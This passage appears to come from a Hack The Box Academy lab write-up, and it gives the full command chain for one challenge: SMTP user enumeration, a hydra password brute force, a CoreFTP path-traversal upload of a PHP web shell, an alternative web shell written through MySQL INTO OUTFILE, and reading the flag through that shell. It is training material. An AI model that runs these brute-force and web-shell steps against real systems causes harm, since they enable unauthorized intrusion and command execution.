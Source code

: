 ## 🔧 Tools & Commands Reference

### Complete Tool Chain Used
```bash
# Service Discovery
nmap -A target_ip

# User Enumeration  
wget https://academy.hackthebox.com/storage/resources/users.zip
unzip users.zip
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t target_ip

# Credential Attacks
hydra -l username -P /usr/share/wordlists/rockyou.txt ftp://target_ip -u -t 1

# FTP Access
ftp target_ip

# Vulnerability Research
searchsploit CoreFTP
searchsploit -m windows/remote/50652.txt

# CoreFTP Exploitation
curl -k -X PUT -H "Host: target_ip" --basic -u username:password --data-binary '<?php echo shell_exec($_GET["c"]);?>' --path-as-is https://target_ip/../../../../../../xampp/htdocs/shell.php

# MySQL Alternative
mysql -u username -ppassword -h target_ip
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';

# Flag Extraction
curl -w "\n" http://target_ip/shell.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt
```

---

## 🔗 Related Documentation

- **[SMTP Attacks](smtp-attacks.md)** - Email service enumeration
- **[FTP Attacks](ftp-attacks.md)** - FTP exploitation techniques  
- **[SQL Attacks](sql-attacks.md)** - MySQL file operations
- **[HTB Academy](https://academy.hackthebox.com)** - Original module content

---

# 🎯 Skills Assessment - Medium Difficulty

## 🎯 Overview - Medium Challenge
